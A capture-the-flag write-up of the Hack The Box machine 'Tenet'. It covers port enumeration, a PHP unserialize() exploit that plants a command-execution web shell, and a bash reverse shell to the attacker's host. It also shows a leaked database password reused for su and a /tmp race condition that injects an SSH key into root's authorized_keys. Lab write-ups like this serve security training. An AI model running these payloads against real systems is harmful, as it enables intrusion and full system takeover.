









---
search:
  exclude: true
---
# Tenet Writeup

## Introduction :

Tenet is a Medium Linux box released back in January 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Tenet]
    → nmap -vvv -p- 10.10.10.223 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.223
    Discovered open port 80/tcp on 10.10.10.223
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Tenet]
    → nmap -sCV -p 22,80 10.10.10.223
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 11:21 CEST
    Nmap scan report for 10.10.10.223
    Host is up (0.48s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
    |   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
    |_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 24.77 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Tenet]
    → gobuster dir -u http://10.10.10.223 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.223
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/07/05 11:34:57 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htpasswd            (Status: 403) [Size: 277]
    /.hta                 (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /index.md           (Status: 200) [Size: 10918]
    /server-status        (Status: 403) [Size: 277]
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]
    
    ===============================================================
    2021/07/05 11:35:49 Finished
    ===============================================================
    

Gobuster finds the wordpress site so let's investigate it:

The wordpress site isn't being rendered properly because our browser can't resolve the **tenet.htb** domain name so let's add it to our hosts file:

    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀mahakali)-[~]
    └─# echo '10.10.10.223 tenet.htb' >> /etc/hosts
    
    ┌──(root💀mahakali)-[~]
    └─# ping -c1 tenet.htb
    PING tenet.htb (10.10.10.223) 56(84) bytes of data.
    64 bytes from tenet.htb (10.10.10.223): icmp_seq=1 ttl=63 time=480 ms
    
    --- tenet.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 480.281/480.281/480.281/0.000 ms
    
    ┌──(root💀mahakali)-[~]
    └─# exit
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    →
    
    

` 

Now that the wordpress site renders properly, we can run wp-scan on it however this really takes forever so instead we simply take a look at the blogposts, and we find the one mentionning the **sator.php** file:

since it also suggests a backup extention we can guess the **sator.php.bak** file aswell:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → curl http://10.10.10.223/sator.php
    [+] Grabbing users from text file   
    
    [] Database updated   
    %
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → curl http://10.10.10.223/sator.php.bak
    <****?php
    
    class DatabaseExport
    {
            public $user_file = 'users.txt';
            public $data = '';
    
            public function update_db()
            {
                    echo '[+] Grabbing users from text file  
     ';
                    $this-> data = 'Success';
            }
    
    
            public function __destruct()
            {
                    file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                    echo '[] Database updated   
    ';
            //      echo 'Gotta get this working properly...';
            }
    }
    
    $input = $_GET['arepo'] ?? '';
    $databaseupdate = unserialize($input);
    
    $app = new DatabaseExport;
    $app -> update_db();
    
    
    ?>
    

And basically here we see that sator.php has an **arepo** parameter we can use to pass a serialized object which will then enter the **unserialize()** function, so basically from here we know that we need to create a malicious serialized object to take over the **DatabaseExport** function that gets called right after the unserialization, to do that we create the following php file: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → vim pwn.php
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → cat pwn.php
    <****?php
    
    class DatabaseExport
    {
            public $user_file = 'nihilist.php';
            public $data = ' ';
    }
    
    $pwn = new DatabaseExport;
    echo(serialize($pwn))
    
    ?>
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → php pwn.php
    O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"nihilist.php";s:4:"data";s:34:"<****?php system($_REQUEST["cmd"]); ?>";}

So now that we have our serialized object, let's pass it to the machine using the **arepo** php parameter on the sator.php file:

Here we can suspect it worked because of the second **[] Database updated** line, so let's test it by trying the following URL:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → curl http://10.10.10.223/nihilist.php
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → curl http://10.10.10.223/nihilist.php\?cmd\=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    

And we managed to upload our nihilist.php file! Now that we have remote code execution let's spawn a reverse shell:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → curl http://10.10.10.223/nihilist.php\?cmd\=bash -c "bash -i >& /dev/tcp/10.10.14.8/9002 0>&1"
    
    

Now if you try this, it won't work because it needs to be URL encoded. so to URL encode it properly we can use burpsuite:

 

So now we send the following GET request:
    
    
    GET /nihilist.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.8/9002+0>%261" HTTP/1.1
    Host: 10.10.10.223
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    
    

` 

Now that we get a reverse shell as www-data, let's upgrade it to a fully interactive TTY:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.223] 47776
    bash: cannot set terminal process group (1566): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@tenet:/var/www/html$ which python python3 wget curl
    which python python3 wget curl
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    www-data@tenet:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@tenet:/var/www/html$ ^Z
    [1]  + 3300120 suspended  nc -lvnp 9002
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → stty raw -echo ;fg
    [1]  + 3300120 continued  nc -lvnp 9002
                                           export TERM=screen-256color
    www-data@tenet:/var/www/html$ export SHELL=bash
    www-data@tenet:/var/www/html$ stty rows 50 columns 200
    www-data@tenet:/var/www/html$ reset
    
    

Now that we have a fully interactive TTY to work with, let's see which user we need to privesc to:
    
    
    www-data@tenet:/var/www/html$ ls -lash /home
    total 12K
    4.0K drwxr-xr-x  3 root root 4.0K Dec 17  2020 .
    4.0K drwxr-xr-x 23 root root 4.0K Jan  7 09:58 ..
    4.0K drwxr-xr-x  5 neil neil 4.0K Jan  7 10:06 neil
    www-data@tenet:/var/www/html$ ls -lash /home/neil/
    total 36K
    4.0K drwxr-xr-x 5 neil neil 4.0K Jan  7 10:06 .
    4.0K drwxr-xr-x 3 root root 4.0K Dec 17  2020 ..
       0 lrwxrwxrwx 1 neil neil    9 Dec 17  2020 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 neil neil  220 Dec 16  2020 .bash_logout
    4.0K -rw-r--r-- 1 neil neil 3.7K Dec 16  2020 .bashrc
    4.0K drwx------ 2 neil neil 4.0K Dec 17  2020 .cache
    4.0K drwx------ 3 neil neil 4.0K Dec 17  2020 .gnupg
    4.0K drwxrwxr-x 3 neil neil 4.0K Dec 17  2020 .local
    4.0K -rw-r--r-- 1 neil neil  807 Dec 16  2020 .profile
    4.0K -r-------- 1 neil neil   33 Jul  5 09:24 user.txt
    www-data@tenet:/var/www/html$ cat /home/neil/user.txt
    cat: /home/neil/user.txt: Permission denied
    
    

So let's find a way to get to the neil user, to do so we simply take a look at the wordpress config file:
    
    
    www-data@tenet:/var/www/html$ ls -l
    total 32
    -rw-r--r-- 1 www-data www-data    34 Jul  5 11:25 nihilist.php
    -rw-r--r-- 1 www-data www-data 10918 Dec 16  2020 index.html
    -rwxr-xr-x 1 www-data www-data   514 Dec 17  2020 sator.php
    -rwxr-xr-x 1 www-data www-data   514 Dec 17  2020 sator.php.bak
    -rw-r--r-- 1 www-data www-data     7 Jul  5 11:25 users.txt
    drwxr-xr-x 5 www-data www-data  4096 Jul  5 09:49 wordpress
    www-data@tenet:/var/www/html$ cd wordpress/
    www-data@tenet:/var/www/html/wordpress$ ls -l
    total 220
    -rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
    -rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
    -rw-r--r--  1 www-data www-data  7278 Jun 26  2020 readme.html
    -rw-r--r--  1 www-data www-data  7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x  9 www-data www-data  4096 Dec  8  2020 wp-admin
    -rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
    -rw-r--r--  1 www-data www-data  2328 Oct  8  2020 wp-comments-post.php
    -rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
    -rw-r--r--  1 www-data www-data  3185 Jan  7 10:04 wp-config.php
    drwxr-xr-x  5 www-data www-data  4096 Jul  5 09:49 wp-content
    -rw-r--r--  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x 25 www-data www-data 12288 Dec  8  2020 wp-includes
    -rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
    -rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
    -rw-r--r--  1 www-data www-data 49831 Nov  9  2020 wp-login.php
    -rw-r--r--  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
    -rw-r--r--  1 www-data www-data 20975 Nov 12  2020 wp-settings.php
    -rw-r--r--  1 www-data www-data 31337 Sep 30  2020 wp-signup.php
    -rw-r--r--  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
    -rw-r--r--  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
    www-data@tenet:/var/www/html/wordpress$ cat wp-config.php
    <****?php
    /**
     * The base configuration for WordPress
     *
     * The wp-config.php creation script uses this file during the
     * installation. You don't have to use the web site, you can
     * copy this file to "wp-config.php" and fill in the values.
     *
     * This file contains the following configurations:
     *
     * * MySQL settings
     * * Secret keys
     * * Database table prefix
     * * ABSPATH
     *
     * @link https://wordpress.org/support/article/editing-wp-config-php/
     *
     * @package WordPress
     */
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'neil' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'Opera2112' );
    
    [...]

And it looks like we have credentials! let's try to privesc to neil using his password **Opera2112** :
    
    
    www-data@tenet:/var/www/html/wordpress$ su - neil
    Password:
    neil@tenet:~$ id
    uid=1001(neil) gid=1001(neil) groups=1001(neil)
    neil@tenet:~$ cat user.txt
    c9XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we managed to privesc to the neil user and got the user flag!

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user, we take a look at what neil can execute with **sudo -l** : 
    
    
    neil@tenet:~$ sudo -l
    Matching Defaults entries for neil on tenet:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:
    
    User neil may run the following commands on tenet:
        (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
    
    

So apparently the neil user can run the **/usr/local/bin/enableSSH.sh** bashscript as root without any password. 
    
    
    neil@tenet:~$ ls -lash /usr/local/bin/enableSSH.sh
    4.0K -rwxr-xr-x 1 root root 1.1K Dec  8  2020 /usr/local/bin/enableSSH.sh
    
    

However we don't own it so we cannot change the bashscript to directly put a reverse shell in it, so let's see what it does:
    
    
    neil@tenet:~$ cat /usr/local/bin/enableSSH.sh
    #!/bin/bash
    
    checkAdded() {
    
            sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
    
            if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
    
                    /bin/echo "Successfully added $sshName to authorized_keys file!"
    
            else
    
                    /bin/echo "Error in adding $sshName to authorized_keys file!"
    
            fi
    
    }
    
    checkFile() {
    
            if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
    
                    /bin/echo "Error in creating key file!"
    
                    if [[ -f $1 ]]; then /bin/rm $1; fi
    
                    exit 1
    
            fi
    
    }
    
    addKey() {
    
            tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
    
            (umask 110; touch $tmpName)
    
            /bin/echo $key >>$tmpName
    
            checkFile $tmpName
    
            /bin/cat $tmpName >>/root/.ssh/authorized_keys
    
            /bin/rm $tmpName
    
    }
    
    key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
    addKey
    checkAdded
    
    

When you take a closer look here:
    
    
    addKey() {
            tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
            (umask 110; touch $tmpName)
    
     **/bin/echo $key >>$tmpName
            checkFile $tmpName
            /bin/cat $tmpName >>/root/.ssh/authorized_keys**
    
            /bin/rm $tmpName
    }
    

You see that the checkFile function is being run and right after the ssh key gets added to the root user's authorized_keys file, so this means that we can potentially just change the ssh public key that gets loaded into **/tmp/** to replace it with our own, so the easy way to do this is to just run a bashscript which will iterate through every file that begins with **ssh** into /tmp and simply replace it with our public SSH key so that we can login as root afterward. 
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Tenet]
    → cat ~/.ssh/mahakaliVM.pub
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali
    
    [terminal 2]
    neil@tenet:~$ cd /tmp
    neil@tenet:/tmp$ while true; do echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali" | tee /tmp/ssh* >/dev/null ;done
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Tenet]
    → ssh neil@tenet.htb
    neil@tenet.htb's password:
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Jul  5 12:46:53 UTC 2021
    
      System load:  1.62               Processes:             201
      Usage of /:   15.1% of 22.51GB   Users logged in:       1
      Memory usage: 9%                 IP address for ens160: 10.10.10.223
      Swap usage:   0%
    
    
    53 packages can be updated.
    31 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Mon Jul  5 12:46:27 2021 from 10.10.14.8
    neil@tenet:~$ sudo enableSSH.sh
    Error in adding root@ubuntu to authorized_keys file!
    neil@tenet:~$ sudo enableSSH.sh
    Successfully added root@ubuntu to authorized_keys file!
    
    [terminal 3]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Tenet]
    → ssh root@10.10.10.223 -i ~/.ssh/mahakaliVM
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Jul  5 12:47:11 UTC 2021
    
      System load:  1.53               Processes:             206
      Usage of /:   15.1% of 22.51GB   Users logged in:       1
      Memory usage: 9%                 IP address for ens160: 10.10.10.223
      Swap usage:   0%
    
    
    53 packages can be updated.
    31 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Thu Feb 11 14:37:46 2021
    root@tenet:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@tenet:~# cat /root/root.txt
    9fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

